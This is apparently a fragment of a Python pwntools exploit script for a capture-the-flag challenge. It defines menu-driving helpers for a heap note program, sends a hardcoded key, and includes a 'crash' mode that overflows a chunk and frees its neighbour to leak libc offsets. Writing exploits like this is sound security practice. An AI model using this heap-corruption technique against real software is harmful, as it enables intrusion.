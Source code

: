 ```python
    sys.exit(1)


def create(idx, size, val="0"):
    print p.recvuntil("> ")
    p.sendline("1")
    print p.recvuntil(": ")
    p.sendline(str(idx))
    print p.recvuntil(": ")
    p.sendline(str(size))
    print p.recvuntil(": ")
    p.sendline("0") #binary
    print p.recvuntil(": ")
    p.sendline(val)
    print " >> %d created" % idx

def delete(idx):
    print p.recvuntil("> ")
    p.sendline("2")
    print p.recvuntil(": ")
    p.sendline(str(idx))

def edit(idx, val, b="1"):
    print p.recvuntil("> ")
    p.sendline("3")
    print p.recvuntil(": ")
    p.sendline(str(idx))
    print p.recvuntil(": ")
    p.sendline(b) #string
    print p.recvuntil(": ")
    p.sendline(val)

def print_one(idx):
    print p.recvuntil("> ")
    p.sendline("5")
    print p.recvuntil(": ")
    p.sendline(str(idx))
    print p.recvline(False)
    print p.recvuntil(": ")
    r = p.recvuntil("-----***-----")
    print r
    return r

def change_key(k):
    print p.recvuntil("> ")
    p.sendline("7")
    print p.recvuntil(": ")
    p.sendline(k)
    print p.recvuntil(": ")
    p.sendline(k)


print p.recvuntil("key: ")
p.sendline("wjigaep;r[jg]ahrg[es9hrg")

if sys.argv[1] == "crash": #use offsets in dump to discover the libc version
    create(0,24)
    create(1,24)
    edit(0, "a"*24)
    delete(1)

    print p.recvall()
    p.close()
```